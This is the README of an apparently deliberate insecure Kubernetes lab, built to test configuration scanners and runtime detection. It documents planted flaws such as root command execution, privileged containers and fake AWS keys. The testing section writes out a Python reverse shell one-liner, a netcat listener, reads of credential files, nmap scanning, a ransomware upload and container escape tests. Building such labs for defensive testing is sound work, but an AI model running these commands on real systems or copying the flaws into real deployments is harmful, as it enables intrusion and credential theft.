 <p align="center"><img src="https://raw.githubusercontent.com/latiotech/LAST/main/logo.png" width="150" ><br><h1 align="center">Insecure Kubernetes App</h1>
</p>

![GitHub stars](https://img.shields.io/github/stars/latiotech/insecure-kubernetes-deployments?style=social)
![GitHub release (latest by date)](https://img.shields.io/github/v/release/latiotech/insecure-kubernetes-deployments)
![GitHub issues](https://img.shields.io/github/issues/latiotech/insecure-kubernetes-deployments)
![GitHub pull requests](https://img.shields.io/github/issues-pr/latiotech/insecure-kubernetes-deployments)
![GitHub](https://img.shields.io/github/license/latiotech/insecure-kubernetes-deployments)
[![Discord](https://img.shields.io/discord/1119809850239614978)](https://discord.gg/k5aBQ55j5M)
![Docker Pulls](https://img.shields.io/docker/pulls/confusedcrib/insecure-app)

Test every type of configuration scanner against a single repo that's comically insecure with documented issues

[About Latio](https://latio.tech)  

# Insecure Kubernetes Deployments

A repo meant for providing tools for security testing that is comically insecure. Another great tool is [Kubernetes Goat](https://github.com/madhuakula/kubernetes-goat), but I wanted more of a playground and less complexity.

## This Repo Contains the following issues:

### General Configuration Issues

1. Busybox is deployed as a long running pod with plenty of dangerous utilities on it
2. Insecure App has fake AWS access keys as env variables, mounts the docker socket, runs in privileged mode, is open on port 8080 and port 22, and binds an SA role with permissions to create more SA roles
3. Workload Security Evaluator contains all the same issues

### Insecure-app

1. Takes raw input as a web form and runs it as root on the server and returns the input to the user
2. Allows for unvalidated file uploads
3. Is running in debug mode
4. Has way more utilities on its Dockerfile than it needs

### Workload-security-evaluator

1. Is forked from [DataDog](https://github.com/DataDog/workload-security-evaluator)
2. Is used for running tests from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

## Deployment:

1. Create the namespaces `insecure-app` and `workload-security-evaluator`

```
kubectl create namespace insecure-app
kubectl create namespace workload-security-evaluator
```

2. Apply the deployment yamls

```
kubectl apply -f busybox.yaml
kubectl apply -f insecure-app.yaml
kubectl apply -f workload-security-evaluator.yaml
```

3. To test in these pods:

Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n workload-security-evaluator`

For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`

For workload-security-evaluator, run `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`

# Testing 

## Misconfigurations

1. AWS creds in env variables
2. SSH port open
3. SA credentials have ability to create new credentials
4. Privileged container
5. Docker socket mounted

## Runtime

1. Run `python3 --version` and `ls -al` via the web form  - detects if it can tell that the python process is running bash commands
2. Run `apt-get update` and `apt-get install hydra -y` - to check for package installs
3. Scan the local port range to look for network detections - `nmap -sS 192.168.1.1-254`
4. Try to spawn a reverse shell
    - bash into workload-security and run `apt-get install netcat`
    - `nc -lvnp 9001`
    - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh`
8. `Invoke-AtomicTest T1105-27` - download and run a file
9. `Invoke-AtomicTest T1046-2` - run nmap
10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
11. `Invoke-AtomicTest T1070.003-1` - clear bash history
12. `Invoke-AtomicTest T1611-1,2` - Container escape
13. Check agent utilization with `k top pod --all-namespaces`

Readme change
